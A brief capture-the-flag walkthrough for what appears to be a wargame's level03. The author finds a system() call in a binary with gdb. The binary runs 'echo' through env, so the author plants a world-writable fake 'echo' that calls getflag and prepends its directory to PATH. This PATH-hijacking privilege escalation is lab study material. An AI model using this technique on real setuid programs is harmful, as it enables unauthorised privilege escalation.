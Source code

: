 ## Walkthrough :  
- i started debugging using gdb , and found a call to **system** function
- print the argument passed to system : *"/usr/bin/env echo Exploit me"*, it gets the program from the PATH
- system : executes  a  command  specified in parameters
- so decided to change cancat my exploit to the path  
```
chmod 777 . && echo "getflag" >> echo && chmod 777 echo
```
```
export PATH=/home/user/level03/:$PATH
```
